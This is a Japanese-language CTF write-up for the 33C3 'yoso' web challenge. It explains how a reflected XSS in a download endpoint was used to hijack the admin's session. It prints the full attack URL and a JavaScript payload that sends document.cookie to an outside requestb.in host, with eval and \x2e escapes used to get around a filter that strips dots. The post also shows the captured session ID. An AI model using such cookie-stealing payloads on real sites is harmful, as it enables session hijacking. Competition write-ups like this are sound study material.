 ```yaml
---
layout: post
alias: "/blog/2016/12/30/33c3-ctf-yoso/"
date: "2016-12-30T13:39:40+09:00"
title: "33C3 CTF: yoso"
tags: [ "ctf", "writeup", "web", "33c3-ctf", "javascript", "xss", "session-hijack", "csrf", "csrf-token" ]
---
```


深夜まで必死で粘ってなんとか倒した。達成感があった。

## problem

一括検索 + 検索履歴保存のサービス。そしてadminはflagについて検索するのが好きとのこと。

![](/blog/2016/12/30/33c3-ctf-yoso/1.png)
![](/blog/2016/12/30/33c3-ctf-yoso/2.png)

## solution

-   `/register.php`/`/login.php/`logout.php`: 何もなさそう
-   `/search.php`: 検索ができる
-   `/bookmark.php`: POSTすればzipが鯖上に生成される
-   `/download.php`: そのzipを削除しつつ取得
-   `/feedback.php`: linkを送ると鯖上で踏んでjsを実行してくれる

`/feedback.php`から`/bookmark.php`にPOSTして出きたzipを奪うのが思い付くが、`/bookmark.php`はCSRF tokenを持つのでだめ。
しかし`/download.php`にはXSSの脆弱性を持つので、これを踏ませてsession hijackにする。

最終的な攻撃linkはこれ: <http://78.46.224.80:1337/download.php?zip=%3Cscript%3Eeval%28%22location%5Cx2ehref%3D%5C%22http%3A%2F%2Frequestb%5Cx2ein%2F18o1k6g1%3F%5C%22%2Bdocument%5Cx2ecookie%3B%22%29%3C%2Fscript%3E>。

実行させたいjavascriptは以下。

``` javascript
location.href = "http://requestb.in/18o1k6g1?" + document.cookie;
```

しかし`/download.zip`では`..`を防ぐのと兼ねて`.`が消去される。なので文字列に持ちあげて`eval`する。
XSSは<http://78.46.224.80:1337/download.php?zip=%3Cmarquee%3EXSS%3C/marquee%3E>みたいに仕込める。

``` html
eval("location\x2ehref=\"http://requestb\x2ein/18o1k6g1?\"+document\x2ecookie;")
http://78.46.224.80:1337/download.php?zip=<script>eval("location\x2ehref=\"http://requestb\x2ein/18o1k6g1?\"+document\x2ecookie;")</script>
```


得られたのは`PHPSESSID=c5u3mgfndm4u241ji3ad9bajn1`。
結局CSRF tokenは破れず。

flag: `33C3_lol_wHo_needs_scr1pts_anyway`
